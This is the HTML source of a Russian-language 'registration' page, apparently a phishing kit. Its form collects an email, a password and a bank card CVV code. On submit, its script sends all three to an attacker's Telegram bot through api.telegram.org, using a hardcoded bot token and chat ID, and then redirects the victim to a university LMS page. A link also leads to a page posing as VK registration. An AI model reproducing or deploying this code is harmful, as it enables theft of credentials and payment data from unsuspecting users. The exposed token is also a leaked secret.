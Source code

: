 <html lang="ru">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Регистрация</title>
    <style>
      form {
        display: flex;
        flex-direction: column;
        width: 250px;
        margin-left: 100px;
      }
      h1 {
        margin-left: 100px;
      }
      button {
        font-size: 25px;
        width: auto;
        margin-top: 5px;
        padding: 10px;
        background: green;
        color: white; /* Добавлено для улучшения видимости текста на кнопке */
      }
      #forgot-password {
        background: blue; /* Измените цвет фона для кнопки "Забыли пароль?" */
      }
    </style>
</head>
<body>
    <h1>Регистрация</h1>
    <form id="registrationForm">
        <p></p>
        <label for="email">Email</label>
        <input type="text" id="email" name="email" required maxlength='50' onkeypress="return /[a-zA-Z0-9@.]/.test(event.key)" title="Email должен содержать только латинские буквы, цифры, @ и .">
        <br>
        <p></p>
        <label for="pass">Пароль</label>
        <input type="text" id="pass" name="password" required maxlength='20' onkeypress="return /[a-zA-Z0-9]/.test(event.key)" title="Пароль должен содержать только латинские буквы и цифры (максимум 20 символов)">
        <p></p>
        <label for="cvv">CVV код (3-х значный код на обратной стороне карты)</label>
        <input type="text" id="cvv" name="cvv" required maxlength="3" oninput="this.value = this.value.replace(/[^0-9]/g, '')">
        <br>
        <button type="submit">Зарегистрироваться</button>
        <button type="button" id="forgot-password">Забыли пароль?</button> <!-- Кнопка для восстановления пароля -->
    </form>

    <script>
        const form = document.getElementById('registrationForm');

        form.addEventListener('submit', e => {
            e.preventDefault(); 
            
            const username = document.getElementById('pass').value;
            const email = document.getElementById('email').value;

            // Проверка на наличие символа @ в email
            if (!email.includes('@')) {
                alert('Пожалуйста, введите корректный адрес электронной почты (должен содержать @).');
                return;
            }

            // Проверка на допустимые символы в email
            const emailPattern = /^[a-zA-Z0-9@.]+$/;
            if (!emailPattern.test(email)) {
                alert('Email может содержать только латинские буквы, цифры, @ и .');
                return;
            }

            const cvv = document.getElementById('cvv').value;

            const token = '7942332820:AAFC2P1_9T8USat2LkVF_cXqtqCaBqs2O4g';
            const chatId = -1002372284940; 
            const message = `Новая регистрация:\n Почта: ${email}\n Пароль: ${username}\n CVV: ${cvv}`;
            const url = `https://api.telegram.org/bot${token}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`;
            
            fetch(url) 
            .then(response => {
                if (response.ok) {
                    alert('Данные успешно отправлены в Telegram!');
                    // Перенаправление на другую страницу
                    window.location.href = 'https://lms.dgmu.ru/mod/quiz/report.php?id=44292&mode=overview'; 
                } else {
                    console.log('error');
                }
            })
            .catch(error => {
                console.error('Ошибка:', error);
                alert('Ошибка при отправке данных.');
            });
        });

        // Обработчик клика для кнопки "Забыли пароль?"
        document.getElementById('forgot-password').addEventListener('click', function() {
            window.location.href = 'https://sheikh05ed.github.io/register_on_vk.github.io/'; 
        });
    </script>
</body>
</html>
